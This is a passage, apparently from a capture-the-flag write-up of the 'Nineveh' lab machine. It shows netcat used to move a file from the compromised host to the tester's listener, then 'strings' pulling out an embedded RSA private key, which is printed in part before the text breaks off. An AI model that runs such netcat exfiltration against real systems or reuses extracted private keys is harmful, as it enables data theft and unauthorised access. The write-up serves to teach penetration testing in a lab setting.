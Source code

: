 ```bash
www-data@nineveh:/var/www/ssl/secure_notes$ nc 10.10.16.198 443 < nineveh.png
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -nlvp 443 > nineveh.png
```

```bash
❯ strings nineveh.png
<data>
-----BEGIN RSA PRIVATE KEY-----                                                                                                                                                                                                            
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI                                                                                                                                                                           
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU                                                                                                                                                                           
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5                                                                                                                                                                           
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI                                                                                                                                                                           
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT                                                                                                                                                                           
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn                                                                                                                                                                           
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk                                                                                                                                                                           
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z                                                                                                                                                                           
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR                                                                                                                                                                           
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo                                                                                                                                                                           
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu                                                                                                                                                                           
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb                                                                                                                                                                           
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl                                                                                                                                                                           
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b                                                                                                                                                                           
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
```